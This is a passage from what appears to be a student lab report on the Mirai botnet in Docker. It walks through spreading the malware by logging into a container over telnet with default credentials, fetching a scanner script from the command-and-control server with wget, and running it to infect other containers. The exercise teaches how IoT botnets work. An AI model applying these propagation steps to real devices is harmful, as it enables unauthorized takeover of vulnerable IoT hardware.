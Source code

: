 \section{Exercise 3: Spread Mirai}
This exercise has the objective of infecting some containers with the Mirai malware, to achieve this the idea is to get access to one of the IoT devices and then use it to infect the other devices. The target device has IP \texttt{192.168.10.5}. All the IoT devices have the same credentials which are \texttt{admin:admin1234}, they were originally found in a made up manual page which can be found in our repository at \texttt{/report/resources/pdf}\footnote{\url{https://github.com/luiss07/mirai/tree/main/report/resources/pdf}}. Since the CNC together with the telnet interface provides an endpoint to download files it can be used as the loader server. The first step is to connect to the target machine using the command \texttt{telnet 192.168.10.5}, after logging in it is possible to get the actual scanner script from the CNC by using the command \texttt{wget mirai-cnc/bins/scanner.py}. There are a few things to consider here, the first one is that instead of the IP it is possible to use the container name \texttt{mirai-cnc} since we are inside a docker container in the same network. The other important thing to notice is that we decided to reimplement the scanner because the original scanner targets random machines over the internet. The scanner script is written in python and tests a set of credentials against some known IPs. If the scanner is run as-is it would not connect to any device since it is missing the credentials used by the devices. To solve this issue the script must be updated either from the CNC server or from the host machine. If the CNC route is chosen the file can be found in the folder \texttt{/var/www/html/bins/}, after editing it, downloading it again on the target machine and running it three machines will be infected. It is possible to verify the infected machines from the CNC Telnet interface, by using the \texttt{botcount} command. Even though there are four potential victims only three of them will be infected, this is due to a programming error on our side which led to the scanner not targeting the machine with IP \texttt{192.168.10.5}.

\begin{figure}
    \centering
    \includegraphics[width=0.8\textwidth]{resources/images/create_user.png}
    \caption{Commands needed for the fourth exercise}
    \label{fig:database}
\end{figure}

